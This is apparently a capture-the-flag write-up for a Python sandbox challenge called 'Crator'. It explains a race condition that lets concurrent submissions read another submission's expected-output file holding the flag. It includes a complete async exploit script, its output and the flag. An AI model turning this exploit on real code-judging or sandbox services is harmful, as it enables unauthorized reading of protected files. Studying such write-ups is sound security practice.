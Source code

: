 ```yaml
---
created: 2024-08-17T21:27
updated: 2024-08-18T21:33
solves: 63
points: 257
---
```


Yet-Another-Python-Sandbox-Or-Is-It?
## problem

- Sandboxed python again?
- We are allowed to read files, just not the `/tmp/[id].expected` file which contains the flag.

But each submission is only forbidden from accessing their own `.expected` file, what if we read it from a previous submission?

## solution

Submit a dummy lagging code, it will pass the first test case and hang on the second one. We will predict its id and store it as `I`.

There will be a ~1s window where `/tmp/{I}.expected` will contain the flag.

```python [lag_machine.py]
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
```

While the request is happening, send multiple new submissions each trying to read the file `/tmp/{I}.expected`, and print the results.

The sandboxed `open` only checks for 1 id, so they will be able to read the file without issue.

```python
w = True # print 1 instance of 'Welcome...' for sanity purpose
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e: # handle file not exist issues
        pass
```

Yes, there is no sandbox breakout, just some race condition.
## solve script

```python [solve.py]
import re
import time
import aiohttp
import asyncio


sid = 0
t = 'https://crator-2de64099b8890ab7.instancer.idek.team'

lagging_code = '''
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
'''


async def init(s):
    global sid
    await s.post(f"{t}/register", data={'username': 'kumo', 'password': 'kumo'})
    await s.post(f"{t}/login", data={'username': 'kumo', 'password': 'kumo'})
    r = await s.post(f"{t}/submit/helloinput", data={'code': 'print("hello")'}, allow_redirects=True)
    sid = int(str(r.url).split('/')[-1])
    sid += 1


async def thief(s, target, delay=0):
    time.sleep(delay)
    r = await s.post(f"{t}/submit/helloinput", data={'code': f'''
w = True
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e:
        pass'''})
    text = await r.text()
    if 'idek{' in text:
        print(re.search(r'idek{(.*)}', text).group(0))


async def attack_chain(s):
    global sid
    jobs = []
    jobs.append(s.post(f"{t}/submit/helloinput", data={'code': lagging_code}))
    for i in range(5):
        jobs.append(thief(s, sid, i/10))
    await asyncio.gather(*jobs)
    print("chain executed", sid, '..', sid+5, t)
    sid += 6


async def main():
    global sid
    async with aiohttp.ClientSession() as s:
        await init(s)
        await attack_chain(s)

asyncio.run(main())
```

```sh
$ python solve.py
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
chain executed 2 .. 7 https://crator-2de64099b8890ab7.instancer.idek.team
```

```flag
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
```
